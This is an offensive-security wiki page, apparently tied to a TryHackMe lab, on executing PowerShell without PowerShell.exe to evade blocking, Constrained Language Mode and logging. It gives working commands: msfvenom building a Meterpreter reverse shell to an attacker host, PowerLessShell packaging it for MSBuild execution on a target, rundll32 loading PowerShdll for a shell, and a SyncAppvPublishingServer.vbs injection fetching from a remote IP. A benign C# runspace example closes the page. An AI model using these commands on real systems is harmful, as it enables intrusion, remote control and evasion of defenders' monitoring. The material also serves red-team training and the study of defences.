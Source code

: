 # Powershell Without Powershell.exe

## Theory

PowerShell.exe primarily serves as a graphical interface for handling input and output, while the core functionality resides in the managed DLL[ **System.Management.Automation.dll**](https://learn.microsoft.com/en-us/dotnet/api/system.management.automation?view=powershellsdk-7.4.0). This DLL is responsible for creating and managing **runspaces**, which serve as isolated execution environments for PowerShell commands and scripts.

Since [runspaces](https://learn.microsoft.com/en-us/powershell/scripting/developer/hosting/creating-runspaces?view=powershell-7.4) operate independently of **PowerShell.exe**, we can create a custom program to establish and control a runspace, allowing us to execute PowerShell code outside the standard PowerShell interface.

Alternatively, projects like [**NoPowerShell**](https://github.com/bitsadmin/nopowershell) completely reimplements common cmdlets in **C#**, bypassing the need for **PowerShell.exe** or **System.Management.Automation.dll**.

If you encounter a scenario where **PowerShell.exe is blocked** or [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) is enforced, but no strict application whitelisting is in place, alternative execution methods can still enable PowerShell execution.

## Practice&#x20;

{% tabs %}
{% tab title="PowerLessShell" %}
[PowerLessShell](https://github.com/Mr-Un1k0d3r/PowerLessShell.git) is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

```bash
#Generate a malisious powershell script
v4resk@kali$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1

#Generate a .csproj with PowerLessShell
v4resk@kali$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj

#Execute it on the target with MSBuild.exe
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```
{% endtab %}

{% tab title="NoPowershell" %}
{% hint style="success" %}
NoPowerShell doesn't use`System.Management.Automation.dll` or RunSpaces, only native .NET libraries. **NoPowerShell** **directly implements cmdlet functionality**
{% endhint %}

[NoPowerShell](https://github.com/bitsadmin/nopowershell) is a tool implemented in C# which supports executing PowerShell-like commands while remaining invisible to any PowerShell logging mechanisms.

This .NET Framework 2 compatible binary can be loaded in Cobalt Strike to execute commands in-memory. An alternative usecase for NoPowerShell is to launch it as a DLL via rundll32.exe:&#x20;

```powershell
C:\Users\v4resk> rundll32 NoPowerShell.dll,main
```
{% endtab %}

{% tab title="PowerShdll" %}
We can load [PowerShdll](https://github.com/p3nt4/PowerShdll) with rundll32.exe to gain a shell

```bash
C:\Users\v4resk> rundll32.exe PowerShdll.dll,main
```
{% endtab %}

{% tab title="SyncAppvPublishingServer" %}
Windows 10 comes with SyncAppvPublishingServer.exe and SyncAppvPublishingServer.vbs that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```bash
C:\Users\v4resk> SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
{% endtab %}

{% tab title="C#" %}
Here's a C# code snippet that demonstrates creating a custom PowerShell runspace to execute commands:

{% code title="RunspacePoc.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

class Program
{
    static void Main()
    {
        string command = "Write-Output 'Hello from PowerShell'";

        using (Runspace runspace = RunspaceFactory.CreateRunspace())
        {
            runspace.Open();
            using (PowerShell ps = PowerShell.Create())
            {
                ps.Runspace = runspace;
                ps.AddScript(command);

                foreach (var result in ps.Invoke())
                {
                    Console.WriteLine(result);
                }
            }
        }
    }
}
```
{% endcode %}

To compile this code on Unix-based systems, we can use the following [mono](https://www.mono-project.com/download/stable/#download-lin) command to include the `System.Management.Automation.dll`:

{% hint style="info" %}
To include it in your Windows Visual Studio project or compile it on Linux, locate the DLL on Windows systems at:

`C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management`
{% endhint %}

```bash
mono-csc RunspacePoc.cs -r:System.Management.Automation.dll
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/powershell-without-powershell" %}

